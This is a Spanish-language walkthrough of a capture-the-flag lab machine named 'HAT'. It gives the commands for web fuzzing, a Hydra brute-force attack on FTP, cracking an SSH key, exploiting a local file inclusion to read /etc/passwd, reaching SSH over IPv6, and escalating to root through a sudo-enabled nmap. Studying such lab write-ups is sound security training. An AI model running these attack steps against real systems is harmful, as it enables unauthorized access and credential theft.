 # HAT

## 0. HERRAMIENTAS

- Puertos filtrados
- Ataque fuerza bruta FTP (Hydra)
- RSACrack
- Binario nmap

## 1. ENUMERACION

Busco la maquina en la red con arp-scan

![Untitled](Untitled.png)

Enumeramos puertos

![Untitled](Untitled%201.png)

Vemos los siguientes puertos abiertos

- 22: Este aparece filtrado
- 80
- 65535

Lanzamos un escaneo más exhaustivo sobre esos puertos

![Untitled](Untitled%202.png)

Podemos ver que sobre el puerto **65535** hay montado un FTP

## 2. COMPROMISO DEL ENTORNO

Intentamos conectarnos con usuario anónimo, pero no lo permite

![Untitled](Untitled%203.png)

El puerto **80** nos devuelve la pagina estándar de Apache

![Untitled](Untitled%204.png)

Voy a enumerar directorios, esta vez con la herramienta **FUFF**

wfuzz -c -t 200 --hc=404 --hw=933 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt [http://192.168.1.24/FUZZ](http://192.168.1.24/FUZZ)

![Untitled](Untitled%205.png)

Vemos 2 directorios interesantes

- logs
- php-scripts

Buscamos archivos con extensión log,php,txt, html dentro del directorio logs

```jsx
ffuf -c -t 200 --fc=404  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .log,.txt,.php,.html -u [http://192.168.69.234/logs/FUZZ](http://192.168.69.234/logs/FUZZ) -mc 200
```

![Untitled](Untitled%206.png)

Encontramos fichero **vsftpd.log**

Hago la misma enumeración con FUZZ

```jsx
wfuzz -c -t 200 --hc=404 --hw=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,php-txt-log [http://192.168.1.24/logs/FUZZ.FUZ2Z](http://192.168.1.24/logs/FUZZ.FUZ2Z)
```

![Untitled](Untitled%207.png)

Accedo al log que nos indica y vemos el usuario admin_ftp

![Untitled](Untitled%208.png)

Con HYDRA hacemos un ataque de fuerza bruta al ftp

```jsx
hydra -t 50 -l admin_ftp -P /usr/share/wordlists/rockyou.txt [ftp://192.168.](ftp://192.168.1.24/)69.234 -s 65535 -V -f -I
```

![Untitled](Untitled%209.png)

![Untitled](Untitled%2010.png)

Ya tenemos:

- usuario: admin_ftp
- password: cowboy

Accedemos correctamente al FTP

![Untitled](Untitled%2011.png)

Descargamos los 2 ficheros que hay dentro del directorio share

![Untitled](Untitled%2012.png)

Con ls -la comprobamos el propietario de esos 2 archivos. Tenemos el usuario, pero más adelante veremos otra forma de sacar el /etc/passwd

![Untitled](Untitled%2013.png)

Vemos el contenido de la nota y del id_rsa

![Untitled](Untitled%2014.png)

![Untitled](Untitled%2015.png)

Crackeamos el id_rsa con el RSAcrack

![Untitled](Untitled%2016.png)

Hago la enumeración de php-scripts

![Untitled](Untitled%2017.png)

Encontramos el fichero file.php

![Untitled](Untitled%2018.png)

Probamos a hacer la enumeración con GOBUSTER

```jsx
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://192.168.69.234/php-scripts/' -x 'html,txt,php'
```

![Untitled](Untitled%2019.png)

Vamos a intentar explotar un LFI en el file.php

Lo vamos a hacer de 2 maneras, con WFUZZ y FFUF

- Con WFUZZ

```jsx
wfuzz -c --hc=404 --hl=0 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt  [http://192.168.69.234/php-scripts/file.php?FUZZ=/etc/passwd](http://192.168.69.234/php-scripts/file.php?FUZZ=/etc/passwd) 
```

![Untitled](Untitled%2020.png)

- Con FUFF

```jsx
ffuf -c -t 200 --fc=404 --fs=0 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -u [http://192.168.69.234/php-scripts/file.php?FUZZ=/etc/passwd](http://192.168.69.234/php-scripts/file.php?FUZZ=/etc/passwd) -mc 200
```

![Untitled](Untitled%2021.png)

En ambos casos vemos que el 6 es susceptible al LFI

Vemos el contenido de esa url y comprobamos que el usuario cromiphi que encontramos en el ftp es usuario de la máquina

![Untitled](Untitled%2022.png)

En la enumeración vimos que el puerto 22 estaba filtrado, esto puede ser porque esté filtrado para ipv4 pero no por ipv6.

Para encontrar la ipv6 de nuestra máquina objetivo lanzamos un ping6 -c2 -I eth0 ff02::1

![Untitled](Untitled%2023.png)

Lanzamos un nmap y vemos que el puerto 22 ahora si que está abierto

![Untitled](Untitled%2024.png)

Accedemos con el usuario cromophi y el id_rsa

![Untitled](Untitled%2025.png)

![Untitled](Untitled%2026.png)

## 3. ESCALADA DE PRIVILEGIOS

![Untitled](Untitled%2027.png)

Buscamos dentro gtfobins

[https://gtfobins.github.io/gtfobins/nmap/#shell](https://gtfobins.github.io/gtfobins/nmap/#shell)

Encontramos:

![Untitled](Untitled%2028.png)

Realizamos los pasos:

```jsx
cromiphi@hat:~$ TF=$(mktemp)
cromiphi@hat:~$ echo 'os.execute("/bin/sh")' > $TF
cromiphi@hat:~$ sudo -u root /usr/bin/nmap --script=$TF
Starting Nmap 7.70 ( [https://nmap.org](https://nmap.org/) ) at 2024-03-03 13:04 CET
NSE: Warning: Loading '/tmp/tmp.PBPSL6uBGa' -- the recommended file extension is '.nse'.
```

![Untitled](Untitled%2029.png)

![Untitled](Untitled%2030.png)